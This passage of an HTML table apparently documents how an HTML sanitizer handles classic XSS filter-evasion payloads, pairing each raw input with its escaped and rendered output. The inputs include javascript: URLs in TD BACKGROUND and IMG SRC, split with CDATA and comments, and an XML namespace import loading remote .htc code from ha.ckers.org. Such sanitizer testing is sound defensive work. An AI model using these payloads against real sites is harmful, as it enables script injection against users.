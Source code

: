 </tr>
<tr>
<td>TD</td>
<td>
<pre>&lt;TABLE&gt;&lt;TD »
BACKGROUND="javascript:alert »
('XSS')"&gt;&lt;/TD&gt;&lt;/TABLE&gt;</pre>
</td>
<td></td>
<td></td>
</tr>
<tr>
<td>XML namespace</td>
<td>
<pre>&lt;HTML xmlns:xss&gt;
&lt;?import »
namespace="xss" »
implementation="http://ha.ck »
ers.org/xss.htc"&gt;
&lt;xss:xss&gt;X »
SS&lt;/xss:xss&gt;

&lt;/HTML&gt;</pre>
</td>
<td>
<pre>&amp;lt;?import namespace="xss" »
implementation="http://ha.ck »
ers.org/xss.htc"&amp;gt;
XSS</pre>
</td>
<td>
<div>&lt;?import namespace="xss" implementation="http://ha.ckers.org/xss.htc"&gt; XSS</div></td>
</tr>
<tr>
<td>XML data island w/CDATA</td>
<td>
<pre>&lt;XML »
ID=I&gt;&lt;X&gt;&lt;C&gt;&lt;![CDATA[&lt;IMG »
SRC="javas]]&gt;&lt;![CDATA[cript: »
alert('XSS');"&gt;]]&gt;

&lt;/C&gt;&lt;/X&gt; »
&lt;/xml&gt;&lt;SPAN DATASRC=#I »
DATAFLD=C DATAFORMATAS=HTML&gt;</pre>
</td>
<td>
<pre>&amp;lt;IMG »
SRC="javascript:alert('XSS') »
;"&amp;gt;

&lt;span&gt;&lt;/span&gt;</pre>
</td>
<td>
<div>&lt;IMG SRC="javascript:alert('XSS');"&gt;</div></td>
</tr>
<tr>
<td>XML data island w/comment</td>
<td>
<pre>&lt;XML ID="xss"&gt;&lt;I&gt;&lt;B&gt;&lt;IMG »
SRC="javas&lt;!-- »
--&gt;cript:alert('XSS')"&gt;&lt;/B&gt;&lt; »
/I&gt;&lt;/XML&gt;
